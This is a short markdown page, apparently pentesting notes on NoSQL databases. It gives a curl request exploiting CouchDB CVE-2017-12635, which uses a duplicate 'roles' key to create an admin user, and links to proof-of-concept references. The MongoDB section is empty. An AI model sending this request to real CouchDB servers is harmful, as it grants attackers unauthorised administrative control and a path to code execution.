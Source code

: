 # NoSQL Databases

## CouchDB

### CVE-2017-12635/6

We find the Proof of concept's for these two CVE's at https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635.

These enable a couchdb exposed port to lead to automate RCE via the creation of an admin user:

```js
curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:oops'
--data-binary '{
  "type": "user",
  "name": "booj",
  "roles": ["_admin"],
  "roles": [],
  "password": "B00j123!"
}'
```

**References**  
https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## MongoDB



